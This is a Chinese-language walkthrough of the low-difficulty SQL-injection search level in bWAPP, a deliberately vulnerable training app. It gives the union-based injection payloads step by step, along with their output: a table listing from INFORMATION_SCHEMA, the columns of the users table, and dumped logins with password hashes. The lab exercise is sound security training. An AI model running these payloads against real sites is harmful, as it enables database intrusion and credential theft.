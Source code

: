 # SQl get search 注入

## 分析 

直接点击search会列举当前数据表中全部内容,显然在这里需要我们注入

## low

输入单引号,报错提示在 % 附近.猜测参数被形如'% %'形式包裹没有过滤,直接带入数据库查询

#### 1 尝试用1'-- - 绕过成功,直接使用sql语句测试即可

#### 2 探测输出位置

依次输入 select 1...select 1,2 直至 

1'union select 1,2,3,4,5,6,7-- -

成功返回 2,3,5,4,Link 视为成功

#### 3 进行详细探测

1'union select 1,table_name,database(),user(),version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database()-- -

将会返回具体信息,查看当前数据库

返回

```
Title 	Release 	Character 	Genre 	IMDb
blog 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
heroes 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
movies 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
users 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
visitors 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
```

可以看出user应该存储了我们想要的信息

#### 4 对users表结构探测

1'union select 1,column_name,3,4,5,6,7 from INFORMATION_SCHEMA.columns where table_name='users'-- -

随即返回

```
id 	3 	5 	4 	Link
login 	3 	5 	4 	Link
password 	3 	5 	4 	Link
email 	3 	5 	4 	Link
secret 	3 	5 	4 	Link
activation_code 	3 	5 	4 	Link
activated 	3 	5 	4 	Link
reset_code 	3 	5 	4 	Link
admin 	3 	5 	4 	Link
```

可以看出 id,login,passord就是我们预期的字段

#### 5 获取数据

1'union select 1,id,login,password,5,6,7 from users-- -

```
1 	A.I.M. 	5 	6885858486f31043e5839c735d99457f045affd0 	Link
2 	bee 	5 	6885858486f31043e5839c735d99457f045affd0 	Link
3 	aideyisu 	5 	c26444766fdf3f92132890fa65daaa09c3e16846 	Link
```
